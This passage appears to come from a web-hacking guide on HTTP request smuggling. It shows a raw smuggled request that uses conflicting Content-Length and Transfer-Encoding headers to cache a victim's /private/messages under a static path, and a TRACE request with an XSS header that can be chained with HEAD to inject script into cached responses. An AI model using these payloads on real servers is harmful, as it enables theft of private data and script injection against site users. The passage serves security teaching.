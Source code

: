 The attacker crafts a smuggled request that fetches sensitive user-specific content. Consider the following example:


```
`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Connection: keep-alive`\
`Content-Length: 43`\
`Transfer-Encoding: chunked`\
``\ `0`\``\
`GET /private/messages HTTP/1.1`\
`Foo: X`
```

If this smuggled request poisons a cache entry intended for static content (e.g., `/someimage.png`), the victim's sensitive data from `/private/messages` might be cached under the static content's cache entry. Consequently, the attacker could potentially retrieve these cached sensitive data.

#### Abusing TRACE via HTTP Request Smuggling

[**In this post**](https://portswigger.net/research/trace-desync-attack) is suggested that if the server has the method TRACE enabled it could be possible to abuse it with a HTTP Request Smuggling. This is because this method will reflect any header sent to the server as part of the body of the response. For example:



```
TRACE / HTTP/1.1
Host: example.com
XSS: <script>alert("TRACE")</script>
```

Will send a response such as:



```
HTTP/1.1 200 OK
Content-Type: message/http
Content-Length: 115

TRACE / HTTP/1.1
Host: vulnerable.com
XSS: <script>alert("TRACE")</script>
X-Forwarded-For: xxx.xxx.xxx.xxx
```

An example on how to abuse this behaviour would be to **smuggle first a HEAD request**. This request will be responded with only the **headers** of a GET request (`**Content-Type**` among them). And smuggle **immediately after the HEAD a TRACE request**, which will be **reflecting the sent dat**a. As the HEAD response will be containing a `Content-Length` header, the **response of the TRACE request will be treated as the body of the HEAD response, therefore reflecting arbitrary data** in the response. This response will be sent to the next request over the connection, so this could be **used in a cached JS file for example to inject arbitrary JS code**.
#### Abusing TRACE via HTTP Response Splitting
